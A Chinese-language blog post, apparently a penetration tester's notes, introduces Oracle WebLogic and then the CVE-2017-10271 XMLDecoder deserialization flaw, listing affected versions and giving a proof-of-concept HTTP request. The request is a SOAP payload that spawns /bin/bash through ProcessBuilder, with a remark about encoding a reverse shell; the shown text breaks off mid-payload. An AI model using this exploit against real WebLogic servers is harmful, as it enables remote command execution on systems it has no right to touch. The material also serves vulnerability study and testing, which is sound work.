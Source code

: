 +++
title = 'Weblogic'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'Java组件'
+++

# 一、Weblogic

Weblogic 是美国 Oracle 公司出品的应用服务器软件，确切的说这是基于 Java EE 架构的中间件，主要用于开发、继承、部署和管理大型分布式 web 应用、网络应用和数据库应用。Weblogic 将 Java 的动态功能和 Java Enterprise 标准的安全性引入大型网络应用的开发、集成、部署和管理之中，是商业市场上主要的 Java 应用服务器软件之一，也是世界上第一个成功商业化的 Java EE 应用服务器，当然 Weblogic 具有可扩展性、快速开发、灵活可靠等优势，其默认端口为7001，目前比较活跃的版本为10和12，最新版本为14。


在功能性上，Weblogic 是 Java EE 的全能应用服务器，包括 EJB、JSP、servlet、JMS 等，是商业软件中排名第一的容器（JSP、servlet、EJB等），并提供其他工具（例如Java编辑器），因此也是一个综合的开发以及运行环境。在扩展性上，Weblogic Server 凭借出色的群集技术，拥有处理关键 web 应用系统问题所需的性能、扩展性和高可用性。Weblogic Server 既实现了网页集群，也实现了EJB组件群集，而且不需要任何专门的硬件或操作系统支持。网页群集可以实现透明的复制、负载平衡以及表示内容容错。无论是网页群集还是组建群集，对于电子商务解决方案所要求的可扩展性和可用性都是至关重要的。

# 二、漏洞介绍与利用

## 1、wls-wsat XMLDecoder 反序列化漏洞（CVE-2017-10271）

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。





影响版本





10.3.6.0.0


12.1.3.0.0


12.2.1.1.0


12.2.1.2.0

检测方式：

POC:

反弹shell记得编码：

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
```